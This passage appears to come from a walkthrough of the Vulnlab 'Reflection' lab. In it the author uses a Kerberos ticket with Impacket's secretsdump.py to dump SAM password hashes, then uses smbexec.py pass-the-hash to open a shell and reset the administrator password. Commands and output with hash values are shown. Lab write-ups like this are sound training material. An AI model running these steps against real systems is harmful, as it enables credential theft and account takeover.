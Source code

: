 Lastly, export the ticket and use `secretsdump.py` to dump the hashes. This is possible since the ticket grants me access as an administrator to the filesystem. Note that i need to use the hostname(won't work with IP) and it needs to match the one on ticket. For this to work, i needed to add an entry to `/etc/hosts` for `ws01.reflection.vl`.
```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k ws01.reflection.vl                    
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7ed33ac4a19a5ea7635d402e58c0055f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29542cb2707bf6d6c1d2c9311b0ff02:::
<SNIP>
```
There is an RDP open on WS01, but i can't login with pass the hash. However, i can use `smbexec.py` to login with the hash, and change the administrator password:
```
smbexec.py administrator@10.10.230.151 -hashes :a29542cb2707bf6d6c1d2c9311b0ff02
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>net user administrator Password123
The command completed successfully.
```

![ws01](/assets/screenshots/vulnlab-reflection/ws01.png)
